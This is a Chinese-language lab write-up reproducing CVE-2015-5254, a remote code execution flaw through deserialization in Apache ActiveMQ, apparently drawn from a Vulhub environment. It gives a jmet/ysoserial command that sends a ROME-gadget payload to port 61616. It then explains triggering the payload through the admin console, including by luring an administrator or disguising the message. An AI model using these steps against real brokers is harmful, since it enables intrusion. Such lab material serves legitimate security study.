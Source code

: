 ```yaml
---
title: （CVE-2015-5254）ActiveMQ 反序列化漏洞
id: zhfly2800
---
```


# （CVE-2015-5254）ActiveMQ 反序列化漏洞

## 一、漏洞简介

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

## 二、漏洞影响

Apache ActiveMQ 5.13.0之前的5.x版本

## 三、复现过程

漏洞利用过程如下：

1.  构造（可以使用ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标61616端口
3.  访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/ianxtianxt/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616 
```

![image](../img/c20d9a1e7d2015b6c24574dde28fcf54.png)

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![image](../img/1a4d3b3d48c49d11126c045bfdf1d470.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

![image](../img/ac0d403e8d06368e45ff89daa9431aff.png)

将命令替换成弹shell语句再利用：

![image](../img/bdca1ff0222f8e1d12b4b36ee75e500b.png)

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

## 参考链接

> https://vulhub.org/#/environments/activemq/CVE-2015-5254/